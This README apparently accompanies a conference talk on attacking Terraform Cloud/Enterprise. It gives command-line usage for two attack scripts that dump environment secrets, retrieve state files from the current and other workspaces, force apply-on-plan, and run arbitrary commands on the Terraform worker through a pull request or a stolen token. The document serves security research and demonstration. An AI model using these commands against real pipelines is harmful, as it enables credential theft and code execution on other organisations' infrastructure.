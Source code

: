 This repository contains scripts to demonstrate the vulnerabilities shown in our associated talk: [Attacking and Defending Infrastructure with Terraform: How we got admin across cloud environments](http://www.google.com) (ToDo: Add link).

There are two scenarios where you can use these scripts:
* When you don't have access to TFC/TFE, or you don't have a token, but **you can create a PR** to a github repository linked to TFC/TFE and speculative plans are run automatically.
* When you can **have access to a Terraform Cloud workspace** and you have a valid token to do so.


## Scenario 1: You can create a PR in a VCS linked with TFC/TFE 
For this scenario use the script: **PR_attack.py**.

Note: You still needs access to TFC in order to read the output of the attacks. But they could also execute arbitrary commands and exfiltrate the results to a C2 they control.

### Exfiltrate secrets
Access the secrets from the environment variables.
```sh
python3 PR_attack.py 
    --repo "https://github.com/CryptoExchangeCo/website/" 
    --folder "dev" 
    --get_envs
```
Demo:

### Retrieve the state file
Get the state file for the current workspace.
```sh
python3 PR_attack.py 
    --repo "https://github.com/CryptoExchangeCo/website/"
    --folder "dev"
    --get_state_file
```

### Retrieve the state file for a different workspace
Get the state file for a different workspace in the same organization.
```sh
python3 PR_attack.py 
    --repo "https://github.com/CryptoExchangeCo/website/" 
    --folder "dev" 
    --get_state_file_from_workspace "website_prod"
```

Demo:

### Apply on plan
It performs an apply on plan using a tf file as an input.
```sh
python3 PR_attack.py 
    --repo "https://github.com/CryptoExchangeCo/website/" 
    --folder "dev" 
    --apply_on_plan "templates/s3_bucket.tf"
```

Demo:

### Execute arbitrary command
Execute an arbitrary command in the TF worker.
```sh
python3 PR_attack.py 
    --repo "https://github.com/CryptoExchangeCo/website/" 
    --folder "dev" 
    --exec_command "id;env;hostname"
```

## Scenario 2: Access to TFC/TFE
For this scenario use the script: **TF_attack.py**.
    
The usage is very similar to the previous scenario. To retrieving secrets from environment variables you will run:
```sh
python3 TF_attack.py 
    --hostname "app.terraform.io" 
    --organization "CryptoExchangeCo"
    --workspace "website_dev"
    --get_envs
```